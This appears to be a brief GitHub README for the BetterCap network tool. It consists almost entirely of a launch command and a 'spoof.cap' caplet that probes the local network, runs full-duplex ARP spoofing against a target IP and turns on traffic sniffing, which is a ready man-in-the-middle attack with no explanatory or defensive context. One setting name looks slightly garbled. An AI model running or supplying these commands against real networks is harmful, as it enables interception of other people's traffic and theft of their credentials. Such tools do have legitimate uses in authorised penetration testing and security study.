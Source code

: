 # BetterCap

![bettercap](https://raw.githubusercontent.com/bettercap/media/master/logo.png)


## **To start with the program**

bettercap iface **target IP**


## **spoof.cap**

net.probe on

set arp.spoof.full duplex true

set arp.spoof.target <target IP>

arp.spoof on

net.sniff on
